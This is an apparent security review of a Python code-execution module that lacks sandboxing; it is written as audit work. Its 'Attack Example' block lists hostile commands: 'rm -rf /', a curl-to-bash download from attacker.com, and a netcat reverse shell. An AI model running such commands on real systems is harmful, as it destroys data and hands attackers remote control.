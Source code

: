 
## 🔐 COMPREHENSIVE SECURITY REVIEW

**Status:** ⚠️ NEEDS IMMEDIATE ATTENTION
**Priority:** CRITICAL
**Reviewed:** 2025-10-17

### Executive Summary

The Python 3 Integration Module provides powerful code execution capabilities, which inherently carries significant security risks. While basic safeguards are in place, **several critical vulnerabilities need immediate remediation** before this module can be considered production-ready for security-conscious environments.

**Overall Security Rating:** ⚠️ **MEDIUM RISK** - Suitable for trusted environments only

**Key Findings:**
- 🔴 **3 Critical Issues** - Require immediate fix
- 🟡 **7 High Priority Issues** - Should be addressed soon
- 🟢 **5 Medium Priority Issues** - Good to have improvements

### 🔴 Critical Security Issues (MUST FIX)

#### 1. **Arbitrary Code Execution Without Sandboxing** 🔴

**Severity:** CRITICAL
**Risk:** Complete Gateway compromise

**Issue:**
```java
// Python3Executor.java - NO SANDBOX
public Python3Result execute(String code, Map<String, Object> variables) {
    // Code is executed directly in subprocess with full Python access
    // User can import os, subprocess, sys, etc.
}
```

**Attack Example:**
```python
# Malicious user can execute:
import os
os.system("rm -rf /")  # Delete all files
os.system("curl attacker.com/steal.sh | bash")  # Remote code execution

import subprocess
subprocess.Popen(["nc", "-e", "/bin/sh", "attacker.com", "4444"])  # Reverse shell

import sys
sys.exit(1)  # Kill Python process, crash pool
```

**Current Protection:** ❌ NONE - Full Python access

**Impact:**
- Complete filesystem access (read/write/delete)
- Network access (exfiltrate data)
- Process spawning (backdoors, cryptominers)
- Gateway process termination
- Lateral movement to other systems

